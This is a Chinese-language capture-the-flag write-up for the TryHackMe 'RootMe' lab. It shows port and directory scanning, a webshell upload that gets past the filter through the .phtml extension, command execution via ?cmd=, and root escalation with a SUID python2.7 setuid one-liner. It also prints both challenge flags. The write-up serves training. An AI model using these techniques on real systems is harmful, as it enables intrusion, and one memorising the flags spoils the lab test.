




# TryHackMe Writeup - RootMe
## nmap看服務
具備ssh與http服務，Apache版本為2.4.41
```
┌──(kali㉿kali)-[~]
└─$ nmap 10.48.181.237 -F --open
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-08 02:26 -0500
Nmap scan report for 10.48.181.237
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds

┌──(kali㉿kali)-[~]
└─$ nmap 10.48.181.237 -sV -p22,80
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-08 02:29 -0500
Nmap scan report for 10.48.181.237
Host is up (0.091s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

## gobuster炸網頁
發現`panel`與`uploads`目錄，在瀏覽器上發現`panel`是上傳檔案區域，`uploads`則是上傳檔案的存放區
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.48.181.237 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.181.237
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
js                   (Status: 301) [Size: 311] [--> http://10.48.181.237/js/]
css                  (Status: 301) [Size: 312] [--> http://10.48.181.237/css/]
uploads              (Status: 301) [Size: 316] [--> http://10.48.181.237/uploads/]
panel                (Status: 301) [Size: 314] [--> http://10.48.181.237/panel/]
server-status        (Status: 403) [Size: 278]
Progress: 7608 / 29999 (25.36%)^C
```



## 上傳webshell
在`panel`上傳一個簡單的webshell，發現若為`.php`、`.pHp`等檔案，會被過濾掉，但嘗試`shell.phtml`可以成功上傳，並且在`uploads`目錄下可以看到該檔案
以下為`.php`被擋掉情況

以下為`.phtml`成功上傳情況


## 執行webshell
從`uploads`點擊進入webshell後，網址列輸入`?cmd=ls`，可以看到該目錄下的檔案。
透過webshell得知目前是`www-data`使用者，且在不斷`../`列舉目錄後，在某層會發現`user.txt`，cat該檔則可取得第一個flag
```
http://10.48.181.237/uploads/shell.phtml?cmd=ls%20../../;cat%20../../user.txt

html user.txt THM{y0u_g0t_a_sh3ll}
```

## suid提權
題目叫我們找出具有suid權限的檔案，透過`find / -perm -4001`指令列舉出所有`others`可執行且具有suid權限的檔案。
其中`/usr/bin/python2.7`，可用來提權。
```
http://10.48.181.237/uploads/shell.phtml?cmd=find /-type f -perm -4001

/usr/lib/snapd/snap-confine /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic /usr/lib/eject/dmcrypt-get-device /usr/lib/openssh/ssh-keysign /usr/lib/policykit-1/polkit-agent-helper-1 /usr/bin/newuidmap /usr/bin/newgidmap /usr/bin/chsh /usr/bin/python2.7 /usr/bin/at /usr/bin/chfn /usr/bin/gpasswd /usr/bin/sudo /usr/bin/newgrp /usr/bin/passwd /usr/bin/pkexec /snap/core/8268/bin/mount /snap/core/8268/bin/ping /snap/core/8268/bin/ping6 /snap/core/8268/bin/su /snap/core/8268/bin/umount /snap/core/8268/usr/bin/chfn /snap/core/8268/usr/bin/chsh /snap/core/8268/usr/bin/gpasswd /snap/core/8268/usr/bin/newgrp /snap/core/8268/usr/bin/passwd /snap/core/8268/usr/bin/sudo /snap/core/8268/usr/lib/openssh/ssh-keysign /snap/core/8268/usr/lib/snapd/snap-confine /snap/core/9665/bin/mount /snap/core/9665/bin/ping /snap/core/9665/bin/ping6 /snap/core/9665/bin/su /snap/core/9665/bin/umount /snap/core/9665/usr/bin/chfn /snap/core/9665/usr/bin/chsh /snap/core/9665/usr/bin/gpasswd /snap/core/9665/usr/bin/newgrp /snap/core/9665/usr/bin/passwd /snap/core/9665/usr/bin/sudo /snap/core/9665/usr/lib/openssh/ssh-keysign /snap/core/9665/usr/lib/snapd/snap-confine /snap/core20/2599/usr/bin/chfn /snap/core20/2599/usr/bin/chsh /snap/core20/2599/usr/bin/gpasswd /snap/core20/2599/usr/bin/mount /snap/core20/2599/usr/bin/newgrp /snap/core20/2599/usr/bin/passwd /snap/core20/2599/usr/bin/su /snap/core20/2599/usr/bin/sudo /snap/core20/2599/usr/bin/umount /snap/core20/2599/usr/lib/openssh/ssh-keysign /bin/mount /bin/su /bin/fusermount /bin/umount
```
### suid補充
> 若腳本語言具有suid權限，在執行時可以設置成擁有者的權限來執行。但預設情況下，使用者會使用自己的權限(ruid)執行腳本語言，而非擁有者的權限(euid)，需要額外設置腳本語言才能成功。

> 若二進位檔案若具有suid權限，執行時會自動以擁有者的權限(euid)來執行，無需額外設置。

因此我們可以執行python2.7，在py中透過設置euid，以擁有者root的權限做事情。得到root權限即可進入/root目錄，尋找並列出第二個flag。
```
http://10.48.181.237/uploads/shell.phtml?cmd=ls -al /usr/bin/python2.7
-rwsr-xr-x 1 root root 3657904 Dec 9 2024 /usr/bin/python2.7

http://10.48.181.237/uploads/shell.phtml?cmd=python2.7 -c "import os; os.setuid(os.geteuid()); os.system('ls /root')"

root.txt snap

http://10.48.181.237/uploads/shell.phtml?cmd=python2.7 -c "import os; os.setuid(os.geteuid()); os.system('cat /root/root.txt')"

THM{pr1v1l3g3_3sc4l4t10n}
```
